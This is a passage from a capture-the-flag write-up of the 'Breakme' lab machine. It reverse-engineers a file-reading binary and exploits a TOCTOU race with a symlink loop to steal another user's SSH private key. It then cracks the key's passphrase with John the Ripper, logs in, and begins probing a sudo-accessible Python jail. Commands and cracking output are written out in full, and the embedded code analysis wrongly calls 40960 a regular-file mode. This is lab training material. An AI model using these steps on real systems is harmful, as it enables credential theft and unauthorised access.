

+ We wget file into the folder machine.

-----------------------------------------
***REVERSE ENGINEERING***

+ We use tool IDA to analyze code of "readfile". We jump to Pseudocode:



+ We will focus into the main line start when we check conditions user is "John".

```bash
**Code Analysis**

Here is a breakdown of the code:

**Conditional Statement**

The code starts with a conditional statement that checks if the user ID (UID) is equal to 1002. If true, the code inside the block is executed.

**String Searching**

The code searches for two specific strings in the first command-line argument (`argv[1]`):

* `"flag"`
* `"id_rsa"`

The `strstr` function is used to search for these strings. If either string is found, the corresponding variable (`v10` or `v9`) is set to a non-null value.

**File Status**

The code uses the `lstat` function to retrieve information about the file specified by `argv[1]`. The `stat_buf` structure is used to store the file status.

**File Mode and Access**

The code checks the file mode and access permissions:

* `HIDWORD(v8) = (stat_buf.st_mode & 0xF000) == 40960;` checks if the file mode is a regular file (40960 is the value for `S_IFREG`).
* `LODWORD(v8) = access(argv[1], 4);` checks if the file can be read (mode 4 is `R_OK`).

**Conditional Statement**

The code checks if any of the following conditions are true:

* `v10` is non-null (i.e., the string `"flag"` was found)
* `v8` is greater than or equal to 0xFFFFFFFF (i.e., the file access check failed)
* `v9` is non-null (i.e., the string `"id_rsa"` was found)

If any of these conditions are true, the code prints "Nice try!" and returns 1.

**File Reading**

If none of the above conditions are true, the code:

* Opens the file specified by `argv[1]` in read-only mode (`open(argv[1], 0)`).
* Reads the file in chunks of 1024 bytes (`read(fd, buf, 0x400uLL)`).
* Writes the read data to the standard output (`write(1, buf, v6)`).

**Return Statement**

The code returns 0 if the file is successfully read and written to the standard output.

**Notes**

* The `usleep(0)` function is used to introduce a small delay, likely to prevent timing attacks.
* The `__assert_fail` function is used to handle errors when opening the file.
* The code uses a mix of 32-bit and 64-bit integer types, which may indicate that the code is intended to run on a 64-bit system.
```
--> Research that we've known that is "Race Condition vulnerability"or call TOCTOU - Time-of-Check Time-of-User vulnerability.

***Exploit Race Condition***

+ TOCTOU, which is 

+ Idea: We will create a script that creates a symbol link to the destination we want, in this case that is ./ssh/id_rsa. While the application perfoms the checks, we are hoping that it will see a regular file "id_rsa" and we will pass the checks. This script is run infinity. So at some point of execution, we've got the file we actually want to read.
+ First we will create a loop running in background switching files between these two states:
```bash
while true; do ln -sf /home/youcef/.ssh/id_rsa flip; rm flip; touch flip; done &

#Note: If we run command in some directory /tmp, /home/youcef which a foler that does not belong to john, it will cause code will become the infinite loop and no content is leaked. Instead, this code will must be executed in john's home directory. 
```
+ After run first command success, we will build a script that executes the application 20 times to read the RSA key form "youcef". After we run code, if nothing appears so we need to run some times repeat again to successfull.

```bash
for i in {1..20}; do /home/youcef/./readfile flip; done
```



+ RUN AGAIN!!!



---> We got it !!! Now we have the RSA key.

+ Copy the key to attack machine and try run SSH.

```bash
~/Documents/CTFs/Breakme$ sudo ssh youcef@10.10.253.8 -i id_rsa 
[sudo] password for zicco: 
The authenticity of host '10.10.253.8 (10.10.253.8)' can not be established.
ED25519 key fingerprint is SHA256:7C+7KD5sXHHAuUddL4pe+CYqXj7LEWGqlWATdS4wRw8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.253.8' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
```
--> We do not have passphrase. So we need to decrypt passphrase first.

+ We use ssh2john to extract passphrase form key RSA:

```bash
    zicco@z-a:~/src/john/run$ python3 ssh2john.py ~/Documents/CTFs/Breakme/id_rsa > key.txt 
    zicco@z-a:/usr/share/wordlists$ ~/src/john/run/./john --wordlist=rockyou.txt ~/Documents/CTFs/Breakme/key.txt 
[ssh-opencl] cipher value of 6 is not yet supported with OpenCL!
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 16 OpenMP threads
Note: Passwords longer than 10 [worst case UTF-8] to 32 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
a123456          (/home/zicco/Documents/CTFs/Breakme/id_rsa)     
1g 0:00:00:06 DONE (2024-10-26 11:48) 0.1621g/s 124.5p/s 124.5c/s 124.5C/s sunshine1..james1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
+ We had the passphrase "a123456" now we back to login SSH again.



+ Run command "sudo -l":

```bash
youcef@Breakme:~$ sudo -l
Matching Defaults entries for youcef on breakme:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User youcef may run the following commands on breakme:
    (root) NOPASSWD: /usr/bin/python3 /root/jail.py
```

+ Try to run python3 with jail.py:



--> We are able to run func "print()" but can not "import ".


